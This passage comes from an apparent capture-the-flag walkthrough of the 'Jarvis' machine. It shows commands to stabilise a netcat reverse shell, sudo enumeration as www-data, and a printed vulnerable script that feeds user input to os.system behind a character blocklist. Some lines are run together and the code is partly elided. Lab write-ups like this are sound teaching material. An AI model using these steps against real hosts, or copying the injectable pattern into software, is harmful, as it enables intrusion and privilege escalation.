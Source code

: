 ```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the user.txt flag. Therefore, we need to escalate privileges.

## Privilege Escalation <a id="b8df"></a>

Run the following command to view the list of allowed commands the user can run using sudo without a password.

```text
www-data@jarvis:/home/pepper$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

As can be seen above, we have the right to run the file _simpler.py_ with pepper’s privileges. Let’s view the permissions on the file.

```text
www-data@jarvis:/home/pepper$ ls -la /var/www/Admin-Utilities/
total 16
drwxr-xr-x 2 pepper pepper 4096 Mar  4  2019 .
drwxr-xr-x 4 root   root   4096 Mar  4  2019 ..
-rwxr--r-- 1 pepper pepper 4587 Mar  4  2019 simpler.py
```

We can read the file. Let’s view the file content to see if we can exploit it to escalate our privileges to pepper.

```text
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import redef show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)......def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
if __name__ == '__main__':
```